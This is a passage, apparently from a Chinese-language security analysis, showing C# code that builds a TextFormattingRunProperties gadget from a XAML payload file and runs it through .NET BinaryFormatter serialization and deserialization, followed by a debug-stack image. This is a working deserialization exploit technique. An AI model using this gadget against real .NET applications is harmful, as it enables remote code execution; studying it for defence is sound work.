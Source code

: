 ```plain
        {
            _xaml = xaml;
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            string xaml_payload = File.ReadAllText(@"C:\Users\ddd\source\repos\xml.txt");
            TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);

            using (MemoryStream memoryStream = new MemoryStream())
            {
                // 构建formatter
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(memoryStream, payload);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
            Console.ReadKey();
        }
    }
}
```

调试栈：

[![](assets/1701606816-97aadcaebba2a72815c627f57cb71d91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102104650-1304961e-792a-1.png)
